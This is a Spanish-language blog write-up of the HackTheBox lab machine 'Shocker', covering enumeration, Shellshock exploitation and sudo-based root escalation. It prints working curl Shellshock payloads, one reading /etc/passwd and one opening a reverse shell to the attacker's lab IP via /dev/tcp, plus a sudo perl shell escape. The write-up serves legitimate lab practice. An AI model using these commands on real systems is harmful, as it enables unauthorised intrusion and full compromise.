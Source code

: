 ```yaml
---
layout: post
title:  "HackTheBox - Shocker"
author: erik
categories: [ HTB ]
image: https://user-images.githubusercontent.com/47476901/155027926-b71bb485-cab8-42b8-bff8-0a2bcf680799.png
beforetoc: ""
toc: false
tags: [ HTB, CVE, Linux ]
---
```


Maquina Linux nivel facil

# Table of Contents
1. [Enumeración](#enumeracion)
2. [Explotación](#explotacion)
3. [Escalación de Privilegios](#escalacion)

---

## Enumeración: <a name="enumeracion"></a>

**Puertos:**
-  80 HTTP
-  2222 SSH

### Nmap

```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```


### Content Web

![WebImage](https://user-images.githubusercontent.com/47476901/123010578-c787b380-d3b6-11eb-8466-9993c71af83a.png)


Haciendo Fuzzing con dirbuster nos encontramos un script en "/cgi-bin/user.sh"

![cgi-bin](https://user-images.githubusercontent.com/47476901/123010587-cbb3d100-d3b6-11eb-8473-e981b30a6ed3.png)

Nos encontramos una vulnerabilidad muy común, que consiste en aprovecharnos del script en /cgi-bin/, conocida como "**shellshock**".
Ya tiene más sentido el texto de la imagen de la web.

Encontré esta página que nos ayuda a explotarla.

- <a href="https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit" target="_blank">Exploit Here</a>

## Explotación: <a name="explotacion"></a>

Utilizamos un payload que nos funcionó:

```bash
curl http://10.10.10.56/cgi-bin/user.sh -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/cat /etc/passwd"
```

![TestRCE](https://user-images.githubusercontent.com/47476901/123010602-d2424880-d3b6-11eb-9489-3799f074775e.png)

Dado a que nos funciona el payload , aprovechamos para darnos una shell:

```bash
curl http://10.10.10.56/cgi-bin/user.sh -H "custom:() { ignored; }; echo Content-Type: text/html; echo ; /bin/bash -i >& /dev/tcp/10.10.14.12/1234 0>&1" 
```

Y nos ponemos a la escucha:

![RevShell](https://user-images.githubusercontent.com/47476901/123010615-d79f9300-d3b6-11eb-997d-138764b6f72c.png)

## Escalación de privilegios: <a name="escalacion"></a>

En el directorio de shelly nos encontramos la flag de user:

![user txt](https://user-images.githubusercontent.com/47476901/123010625-dc644700-d3b6-11eb-9934-82663b902318.png)

Lo primero que se suele hacer es mirar que binarios podemos ejecutar como root.
Nos encontramos un comando que se puede ejecutar como root y no necesitamos contraseña para ello.

![sudoers](https://user-images.githubusercontent.com/47476901/123010635-dff7ce00-d3b6-11eb-9e0e-7f6c608616e5.png)

Miramos en <a href="https://gtfobins.github.io/" target="_blank">gtfobins</a> como podemos aprovecharnos de el para la escalación.

![gtfobins](https://user-images.githubusercontent.com/47476901/123010639-e38b5500-d3b6-11eb-9874-e34b9a2a6bd9.png)

Procedemos a explotarlo:

```bash
sudo perl -e 'exec "/bin/sh";'
```
![GettingRoot](https://user-images.githubusercontent.com/47476901/123010645-e8500900-d3b6-11eb-95a6-fab08f1b69c6.png)

Ya somos root!

![root txt](https://user-images.githubusercontent.com/47476901/123010650-ec7c2680-d3b6-11eb-8035-5f510a93a872.png)

**Maquina Completada**
